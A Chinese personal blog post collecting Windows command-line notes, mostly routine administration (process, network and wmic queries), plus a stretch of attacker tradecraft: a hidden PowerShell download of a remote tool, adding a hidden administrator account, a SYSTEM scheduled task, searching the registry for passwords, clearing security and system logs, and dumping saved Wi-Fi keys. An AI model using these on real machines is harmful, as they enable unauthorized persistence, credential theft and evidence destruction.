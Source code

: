 ```yaml
---
title: Windows常用命令
date: 2017-03-08 20:21:00
comments: true
tags: windows
categories: 技术研究
---
```

<blockquote class="blockquote-center">除苦练内功之外，别无他法。
</blockquote>

分享一些自己常用的windows命令，本文会持续更新，全当笔记备份。本文大部分内容来自互联网整理汇总，小部分来自个人经验所总结。
<!--more -->
### CMD常用命令

下载远程文件：
```bash
powershell -w hidden -c (new-object System.Net.WebClient).Downloadfile('http://www.xxx.com/lcx.1','d:\\3.txt')
```
```bash
bitsadmin /rawreturn /transfer getfile http://127.0.0.1:8080/test.zip F:\123.zip
```
添加隐藏账号：
```bash
net user test$ test /add       添加test用户密码为test的隐藏账号
net localgroup administrators test$ /add 把test添加到系统用户组
```
列出更新的补丁：
```bash
wmic qfe list full /format:htable > hotfixes.htm
wmic qfe get description,installedOn
```
在d盘根目录递归查找login.html文件：
```bash
cd /d d: && dir login.html /a-d/b/s   
```
进入某盘符的某个目录下：
```bash
d: & cd d:/Clover
```
重新打开一个cmd运行：
```bash
cmd /c  whoami 
```
添加计划任务：
```bash
schtasks.exe  /Create /RU "SYSTEM" /SC MINUTE /MO       
45 /TN FIREWALL /TR "c:/1.ex    e" /ED 2016/12/12
可以把RU里面的system改为自己的账户名称，这样就可以执行添加计划任务了
```
进程相关：
```bash
tasklist   查看进程
taskkill /im 进程名称
taskkill /pid[进程码] -t(结束该进程) -f(强制结束该进程以及所有子进程)
```

查看windows系统未打的漏洞补丁：
```bash
set KB2829361=MS13-046&set KB2830290=MS13-046&set KB2667440=MS12-020&set KB2667402=MS12-020&set KB3124280=MS16-016&set KB3077657=MS15-077&set KB3045171=MS15-051&set KB2592799=MS11-080&set KB952004=MS09-012 PR&set KB956572=MS09-012 巴西烤肉&set KB970483=MS09-020 iis6&set KB2124261=MS10-065 ii7&set KB2271195=MS10-065 ii7&systeminfo>a.txt&(for %i in (KB952004 KB956572 KB2393802 KB2503665 KB2592799 KB2621440 KB2160329 KB970483 KB2124261 KB977165 KB958644 KB2667402 KB2667440 KB2830290 KB2829361 KB3045171 KB3077657 KB3124280) do @type a.txt|@find /i "%i"||@echo %%i% Not Installed!)&del /f /q /a a.txt
```
获取保存在注册表中密码的键值：
```bash
REG query HKCU  /v "pwd" /s  #pwd可替换为password \ HKCU 可替换为HKCR
```
识别开机启动的程序:
```bash
wmic startup list full
```
识别网卡中的IP与Mac：
```bash
wmic nicconfig get ipaddress,macaddress
```
查看共享服务：
```bash
wmic share get name,path
net share
```
查看系统中日志的位置：
```bash
wmic nteventlog get path,filename,writeable
```
删除日志：
```bash
wevtutil cl "windows powershell"
wevtutil cl "security"
wevtutil cl "system"
```
运行的服务：
```bash
sc query type= service
net start
```
安装的软件以及版本：
```bash
wmic product get name,version
```
查看某个进程的详细情况：
```bash
wmic process where name="chrome.exe" list full
```
显示系统中曾连接过的无线密码：(以管理员身份运行)
```bash
netsh wlan show profiles
netsh wlan show profiles name="profiles的名字" key=clear
```
一键获取：
```bash
for /f "skip=9 tokens=1,2 delims=:" %i in ('netsh wlan show profiles') do @echo %j | findstr -i -v echo | netsh wlan show profiles %j key=clear
```
查看是否为虚拟机：
```bash
wmic bios list full | find /i "vmware"
```
是否支持powershell:
```bash
if defined PSModulePath (echo 支持powershell) else (echo 不支持powershell)
```
电脑产品编号与型号信息：
```bash
wmic baseboard get  Product,SerialNumber
```

### CMD局域网命令

arp -a 列出本网段内所有活跃的IP地址
arp -a 加对方IP是查对方的MAC地址
arp -s （ip + mac）绑定mac与ip地址
arp -d （ip + mac）解绑mac与ip地址

net view                  ------> 查询同一域内机器列表
net view /domain    ------> 查询域列表
net view /domain:domainname  -----> 查看workgroup域中计算机列表

ipconfig /all            ------> 查询本机IP段，所在域等
ipconfig /release
ipconfig /renew    重新获取Ip地址

telnet ip 端口号：尝试能否打开链接远程主机端口 nbtstat -a 加对方IP查对方的主机名
tracert 主机名   得到IP地址

netstat -a -n
netstat -an | find "3389"
netstat -a查看开启哪些端口
netstat -n查看端口的网络连接情况
netstat -v查看正在进行的工作
netstat -p tcp/ip查看某协议使用情况
netstat -s 查看正在使用的所有协议使用情况

nbtstat -n 获取NetBIOS
nslookup 域名   查询域名对应的ip

### DO常用快捷键

mspaint　　画图工具
calc　　计算机
notepad　　记事本
taskmgr　　任务管理器
osk　　打开屏幕键盘
gpedit.msc　　组策略
services.msc　　本地服务
compmgmt.msc　　计算机管理
devmgmt.msc　　设备管理器
winver　　查看系统版本
magnify　　放大镜实用程序
eventvwr　　事件查看器
Regedit　　打开注册表
resmon　　资源监视器
WMIC BIOS get releasedate　　查看电脑生产日期
mstsc -f　　远程连接（可以全屏）


*本文将持续收集更新，欢迎大家留言补充！*